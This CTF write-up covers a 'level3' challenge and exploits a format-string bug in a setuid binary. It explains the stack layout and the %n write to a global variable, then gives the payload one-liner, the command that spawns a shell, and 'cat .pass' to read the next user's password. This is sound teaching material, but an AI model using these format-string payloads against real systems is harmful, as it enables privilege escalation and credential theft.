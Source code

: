 # Level3

## Context & Explanation
 * There is one file in our home, ```level3```, belonging to ```level4``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
 	* `main()` only calls `v()`
	* `v()` makes use of `fgets()` with an on stack array of size `0x200`
	* It then calls printf with our input as the format string
	* If we get the `static int m` to equal `0x40` the function will call `system("/bin/sh")` and allow us to get the flag.

 * We have the appropriate setup for a [Format-String attack](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf), because printf makes use of a buffer user filled:
    * We want to modify the value of `static int m` to equal `0x40`. It's address is `0x804988c`
		* printf modifier `%n` consider argument as `int*` and write there the number of character written until this modifier, so it needs to be `0x40`
		* we now have to write and access this pointer to `static int m`.
	* When `printf()` is called here is the stack layout:
		1. ESP + 00 [4 octets:		printf format string pointer]
		2. ESP + 04 [4 octets:		data from previous actions  ]
		2. ESP + 08 [4 octets:		data from previous actions  ]
		2. ESP + 12 [4 octets:		data from previous actions  ]
		2. ESP + 16 [0x200 octets:	begining of format buffer   ]

	* So our format should look this way:
		* [m address][%08x]*3[filler text to write in total `0x40` octets][%n]
			* [m address] needs to be written in reverse to fit endianness
			* Each of the [%08x] allows us to access the next stack argument.
			* we can make use of the width modifier argument to easily get to `0x40` written octets.
		* This would be our format string, with `[]` delimiting each part: `[\x8c\x98\x04\x08][%08x%08x%044x][%n]`

## Resolution

	1. We generate our future format string using this command:
```sh
python -c "print('\x8c' + '\x98' + '\x04' + '\x08' + '%08x%08x%044x%n')" > /var/crash/injection_lvl3
```
	2. We launch `level3` by making use of cat with our custom file, with `-` as a second argument, so once the file has been read, cat will transmit stdin :
```sh
cat /var/crash/injection_lvl3  - | ./level3
```
	3. Inside the newly opened shell session we now only have execute these commands:
```sh
cd ..
cd level4
cat .pass
```
